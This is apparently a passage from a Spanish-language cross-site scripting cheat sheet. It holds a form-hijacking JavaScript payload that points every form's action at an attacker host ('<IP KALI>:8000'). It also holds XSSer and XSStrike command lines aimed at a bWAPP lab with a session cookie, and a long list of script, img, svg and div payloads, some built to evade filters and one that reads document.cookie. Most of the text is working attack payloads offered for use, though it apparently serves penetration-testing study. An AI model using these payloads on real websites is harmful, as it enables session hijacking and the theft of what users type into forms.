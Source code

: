 Formularo de direccionamiento:

```javascript
var f=document.forms;var i=f.length-1;do{f[i].action="http://<IP KALI>:8000";f[i].onsubmit=null;}while(--i);
```

### mas payloads

- [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all)

- [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

## Herramienta para detectar vulnerabilidad XSS

- [XSSer](https://github.com/epsylon/xsser)

```python
python3 xsser --url "http://192.168.0.9/bWAPP/xss_get.php?firstname=XSS&lastname=test1&form
=submit" --cookie "PHPSESSID=q6t1k21lah0ois25m0b4egps85;
security_level=1" --auto
```

- [XSStrike](https://github.com/s0md3v/XSStrike)

```python
python3 xsstrike.py -u http://192.168.0.9/bWAPP/xss_get.php?firstname=XSS&lastname=test1&form
=submit
```

## XSS en HTML/Applications

### Payloads comunes

```javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
#"><img src=/ onerror=alert(document.cookie)>
```

```
// Svg payload
<svG onload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
```